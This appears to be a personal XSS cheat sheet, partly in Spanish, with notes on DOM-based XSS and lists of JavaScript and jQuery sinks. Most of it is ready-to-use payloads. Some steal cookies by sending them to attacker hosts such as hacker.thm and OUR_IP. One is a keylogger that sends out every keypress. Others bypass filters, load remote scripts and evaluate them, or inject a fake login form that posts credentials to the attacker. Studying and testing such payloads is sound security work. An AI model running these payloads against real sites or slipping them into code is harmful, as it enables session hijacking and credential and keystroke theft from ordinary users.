 ### Hacktricks:

    <img src=x onerror=alert(PAYLOAD)>

#### steal cookie:

A


    <script>fetch('http://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
B

    document.location='http://OUR_IP/index.php?c='+document.cookie;
C

    new Image().src='http://OUR_IP/index.php?c='+document.cookie;
D

    new Audio().src='http://OUR_IP/index.php?c='+document.cookie;



#### keylogger
        <script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>


#### Quebrar un código JS que recibe el imput
        ';alert('THM');//

#### No HTML inject and script clean:
        <sSCRIPTcript> </sSCRIPTcript>

#### Polyglots:

        jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('porota') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('porota')//>\x3e

#### Probar si se conecta a otro servidor:
A

        <script src=http://OUR_IP></script>
B

        '><script src=http://OUR_IP></script>
C

        "><script src=http://OUR_IP></script>
D

        javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
E

        <script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
F

        <script>$.getScript("http://OUR_IP")</script>


#### Fake form

        document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');


####################### DOM XSS
Las dom based no hacen transacciones con el back-end, quedan enteramente del lado del cliente. Una buena forma de probarlas es ver si un input que se muestra en la pantalla
no genera una request.
##### armado de payloads:
stored DOM xss:
<><img src=1 onerror=alert(1)>

window.location = nos permite construir un link para redireccionar a la victima a un sitio vulnerable.
innerHTML = permite agrergar un elemento al DOM, no permite agrergar scripts directamente ni svgs, pero podemos utilizar una etiqueta html para ingresar js como:<img src=1 onerror=alert(document.domain)>
eval()= 
###DOM Y JQUERY
attr()=permite modificar un elemento del dom. Podríamos aprovecharnos con un codigo como este: javascript:alert(document.domain)
$(): función selectora, nos permite inyectar objetos en el DOM. Podemos explotarlo creando un Iframe <iframe src="https://vulnerable-website.com#" onload="this.src+='<img src=1 onerror=alert(1)>'">


Sinks más comunes para dom xss:
document.write()
document.writeln()
document.domain
element.innerHTML
element.outerHTML
element.insertAdjacentHTML
element.onevent

jquery:
add()
after()
append()
animate()
insertAfter()
insertBefore()
before()
html()
prepend()
replaceAll()
replaceWith()
wrap()
wrapInner()
wrapAll()
has()
constructor()
init()
index()
jQuery.parseHTML()
$.parseHTML()







